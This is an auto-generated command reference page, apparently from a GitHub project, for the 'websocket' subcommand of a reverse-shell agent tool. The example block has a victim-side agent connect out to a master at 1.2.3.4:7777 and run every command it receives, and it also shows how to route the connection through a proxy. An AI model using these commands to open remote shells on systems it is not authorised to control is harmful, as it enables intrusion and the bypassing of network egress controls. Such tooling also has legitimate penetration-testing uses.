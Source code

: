 ## reverse-shell-agent websocket

Agent that connects to a websocket endpoints and wait for commands

### Synopsis

Connect to a remote websocket and execute every command received. The remote host can be a `master` or a `rendezvous`.

```
reverse-shell-agent websocket [flags]
```

### Examples

```
# On the master (1.2.3.4)
$ reverse-shell-master listen --port 7777

# On the agent
$ reverse-shell-agent websocket --url http://1.2.3.4:7777

Once an agent connects, you will be able to write commands in *stdin* that will be directly executed on the agent. You can also connect to a rendezvous point instead of a master.

You can also connect to the outside using a proxy:
$ http_proxy=http://your-proxy:3128 https_proxy=http://your-proxy:3128 agent websocket -U http://1.2.3.4:7777

```

### Options

```
  -h, --help         help for websocket
      --url string   url of the remote websocket endpoint
```

### Options inherited from parent commands

```
  -v, --verbose int   Be verbose on log output
```

### SEE ALSO

* [reverse-shell-agent](reverse-shell-agent.md)	 - Agents listening for remote commands

###### Auto generated by spf13/cobra on 1-May-2018
